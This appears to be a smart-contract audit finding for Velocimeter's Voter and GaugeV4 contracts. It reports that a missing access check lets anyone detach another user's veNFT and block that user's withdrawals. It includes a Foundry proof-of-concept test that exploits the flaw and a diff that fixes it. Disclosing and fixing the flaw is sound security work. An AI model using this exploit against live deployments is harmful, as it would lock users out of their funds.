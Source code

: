 High Hotpink Dove

High

# Malicious user can disrupt the users' withdrawal

## Summary
`Voter::detachTokenFromGauge` has lack of access control and anyone can detach the users' veNFT from deposited assets in gaugeV4 

## Vulnerability Detail
Let's assume  LP attaches its deposited assets to a veNFT and after a while, a malicious user detaches LP's  veNFT, hence LP cannot withdraw its assets

**Coded PoC:**
plz add this test to gaugeV4.t.sol
```solidity
    function testDistruptedUsersWithdraw() external {
        vm.startPrank(address(owner));
        washTrades();
        flowDaiPair.approve(address(gauge),1100);
        vm.mockCall(gauge._ve(), 
        abi.encodeWithSelector(IVotingEscrow.ownerOf.selector, 1),
        abi.encode(address(owner)));
        gauge.deposit(1000, 1);

        vm.stopPrank();
        address alice = makeAddr("alice");
        voter.detachTokenFromGauge(1, address(owner));
        
        vm.startPrank(address(owner));
        gauge.deposit(100, 1);
        vm.expectRevert();
        gauge.withdrawAll();
    }
```

## Impact
lps cannot withdraw their assets from gaugeV4

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/GaugeV4.sol#L539

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L444

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1192

## Tool used

Manual Review

## Recommendation
```diff
function detachTokenFromGauge(uint tokenId, address account) external {
+        require(isGauge[msg.sender]);
+        require(isAlive[msg.sender]);
        if (tokenId > 0) IVotingEscrow(_ve).detach(tokenId);
        emit Detach(account, msg.sender, tokenId);
    }
```
